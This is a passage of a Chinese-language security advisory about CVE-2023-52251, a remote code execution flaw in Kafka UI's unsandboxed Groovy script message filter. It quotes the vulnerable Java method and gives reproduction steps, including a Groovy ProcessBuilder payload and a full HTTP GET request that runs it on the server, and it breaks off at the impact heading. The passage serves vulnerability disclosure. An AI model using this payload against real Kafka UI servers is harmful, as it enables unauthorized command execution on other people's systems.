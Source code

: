 [v0.7.1](  
https://github.com/provectus/kafka-ui/releases/tag/v0.7.1)  
## 细节  
### 问题 1：通过消息过滤中的 Groovy 脚本执行进行 RCE（GHSL-2023-229/CVE-2023-52251）  
  
Kafka UI 允许根据用户提供的过滤器显示通过 Kafka 集群的消息。服务器支持的过滤器类型之一是  
GROOVY_SCRIPT  
。通过使用此过滤器，潜在的恶意人员不仅可以查看消息的内容和属性，还可以在服务器上执行任意代码。此过滤器未经过任何沙盒处理。  
  
易受攻击的方法：[  
com.provectus.kafka.ui.emitter.MessageFilters#groovyScriptFilter](  
https://github.com/provectus/kafka-ui/blob/53a6553765a806eda9905c43bfcfe09da6812035/kafka-ui-api/src/main/java/com/provectus/kafka/ui/emitter/MessageFilters.java#L41)  
```
static Predicate<TopicMessageDTO> groovyScriptFilter(String script) {
  var engine = getGroovyEngine();
  var compiledScript = compileScript(engine, script);
  var jsonSlurper = new JsonSlurper();
  return new Predicate<TopicMessageDTO>() {
    @SneakyThrows
    @Override
    public boolean test(TopicMessageDTO msg) {
      var bindings = engine.createBindings();
      bindings.put("partition", msg.getPartition());
      ...
      var result = compiledScript.eval(bindings);
```  
#### 复现步骤  
1. 使用默认设置运行 Kafka UI 并将其连接到任何 Kafka 集群。  
  
1. 在 Kafka UI 中，导航到 cluster->Topics->Messages 并使用以下内容创建一个新的过滤器  
  
```
new ProcessBuilder("touch","/tmp/pwnd.txt").start()
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCOKbU03j97TokUA8aHOPA5rEKvm7O83YVuFAejIC2c6A4oibePicSfddd71fxeCYoYoLicUsHoFhxtHg/640?wx_fmt=png&from=appmsg "")  
  
通过向应用程序发送以下 GET 请求也可以完成相同的操作：  
```
GET /api/clusters/local/topics/topic/messages?q=new+ProcessBuilder%28%22touch%22%2C%22%2Ftmp%2Fpwnd.txt%22%29.start%28%29&filterQueryType=GROOVY_SCRIPT&attempt=7&limit=100&page=0&seekDirection=FORWARD&keySerde=String&valueSerde=String&seekType=BEGINNING HTTP/1.1
Host: 127.0.0.1:8091
```  
1. 如果当前主题有任何消息，脚本将立即在服务器上执行。或者，您可以使用 Kafka UI 界面向代理发送新消息以触发脚本执行。  
  
1. 执行后会在服务器上创建一个文件  
/tmp/pwnd.txt  
。  
  
#### 影响  
  